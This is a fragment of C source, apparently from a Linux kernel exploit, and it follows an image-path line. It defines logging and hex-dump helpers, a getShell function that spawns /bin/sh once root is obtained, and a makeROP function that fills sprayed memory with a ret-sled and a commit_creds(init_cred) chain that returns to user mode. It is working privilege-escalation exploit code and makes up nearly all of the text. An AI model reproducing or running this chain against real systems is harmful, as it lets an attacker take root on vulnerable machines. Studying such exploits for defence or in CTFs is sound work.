 ```c
            if(index+j >= length)
                sprintf(output_buffer+8+3*j, "   ");
            else{
                sprintf(output_buffer+8+3*j, "%02x ", ((int)buf[index+j]) & 0xFF);
                if(!isprint(buf[index+j]))
                    output_buffer[58+j] = '.';
                else
                    output_buffer[58+j] = buf[index+j];
            }
        }
        output_buffer[55] = ' ';
        output_buffer[56] = '|';
        output_buffer[57] = ' ';
        printf("%s\n", output_buffer);
        memset(output_buffer+58, '\0', 16);
        index += 16;
    }
}

void error_log(char* error_info){
    printf("\033[31m\033[1m[x] Fatal Error: %s\033[0m\n", error_info);
    exit(1);
}

void info_log(char* info){
    printf("\033[33m\033[1m[*] Info: %s\033[0m\n", info);
}

void success_log(char* info){
    printf("\033[32m\033[1m[+] Success: %s\033[0m\n", info);
}

void getShell(){
    info_log("Ready to get root......");
    if(getuid()){
        error_log("Failed to get root!");
    }
    success_log("Root got!");
    system("/bin/sh");
}

void makeROP(size_t* space){
    int index = 0;
    for(; index < (page_size / 8 - 0x30); index++)
        space[index] = add_rsp_0xa0_pop_rbx_pop_r12_pop_r13_pop_rbp_ret;
    for(; index < (page_size / 8 - 0x10); index++)
        space[index] = ret;
    space[index++] = poprdi_ret;
    space[index++] = init_cred;
    space[index++] = commit_creds;
    space[index++] = swapgs_restore_regs_and_return_to_usermode;
    space[index++] = 0xdeadbeefdeadbeef;
    space[index++] = 0xdeadbeefdeadbeef;
    space[index++] = (size_t)getShell;
    space[index++] = user_cs;
    space[index++] = user_rflags;
    space[index++] = user_sp;
    space[index] = user_ss;

    info_log("Spray content below:");
    print_binary((char*)space, page_size);
}

```